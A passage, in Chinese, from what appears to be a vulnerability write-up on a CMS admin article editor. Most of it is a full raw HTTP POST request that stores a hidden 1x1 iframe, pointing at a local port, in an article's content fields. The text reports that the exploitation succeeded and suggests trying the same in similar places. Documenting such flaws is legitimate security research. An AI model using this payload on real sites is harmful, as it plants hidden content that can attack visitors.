

在发布文章的时候同理可以这样

尝试利用

```
POST /admin/archives/add HTTP/1.1
Host: 127.0.0.1:7897
Content-Length: 1601
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="125", "Not.A/Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:7897
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryhEWEBuo0F5PoYOrU
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: iframe
Referer: http://127.0.0.1:7897/admin/archives/toAdd?code=4ol61bbh
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: MAIN_MENU_COLLAPSE=false; DG_USER_ID_ANONYMOUS=e5dbe5efa486485aa7d6260b97b1fe1d; PUBLICCMS_ADMIN=1_6c1a761a-4f04-4c9a-85b9-b23cfd4a95fb; bjui_theme=blue; dreamer-cms-s=ed094132-ec07-40b4-a312-ce35cfc6e49f
Connection: keep-alive

------WebKitFormBoundaryhEWEBuo0F5PoYOrU
Content-Disposition: form-data; name="categoryId"

4e1c58e65fa9423482cf1a29a6ef629b
------WebKitFormBoundaryhEWEBuo0F5PoYOrU
Content-Disposition: form-data; name="categoryIds"

.4ol61bbh
------WebKitFormBoundaryhEWEBuo0F5PoYOrU
Content-Disposition: form-data; name="content"

<p><iframe src="http://127.0.0.1:2333" width="1" height="1" scrolling="no" frameborder="0" align=""></iframe></p>
------WebKitFormBoundaryhEWEBuo0F5PoYOrU
Content-Disposition: form-data; name="imagePath"


------WebKitFormBoundaryhEWEBuo0F5PoYOrU
Content-Disposition: form-data; name="title"

1
------WebKitFormBoundaryhEWEBuo0F5PoYOrU
Content-Disposition: form-data; name="weight"

1
------WebKitFormBoundaryhEWEBuo0F5PoYOrU
Content-Disposition: form-data; name="clicks"

1
------WebKitFormBoundaryhEWEBuo0F5PoYOrU
Content-Disposition: form-data; name="file"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundaryhEWEBuo0F5PoYOrU
Content-Disposition: form-data; name="tag"

1
------WebKitFormBoundaryhEWEBuo0F5PoYOrU
Content-Disposition: form-data; name="description"

1
------WebKitFormBoundaryhEWEBuo0F5PoYOrU
Content-Disposition: form-data; name="comment"

1
------WebKitFormBoundaryhEWEBuo0F5PoYOrU
Content-Disposition: form-data; name="subscribe"

1
------WebKitFormBoundaryhEWEBuo0F5PoYOrU
Content-Disposition: form-data; name="editorValue"

<p><iframe src="http://127.0.0.1:2333" width="1" height="1" scrolling="no" frameborder="0" align=""></iframe></p>
------WebKitFormBoundaryhEWEBuo0F5PoYOrU--

```

然后我们看回显结果



成功利用

当然类似的场景我们都可以做这样的尝试
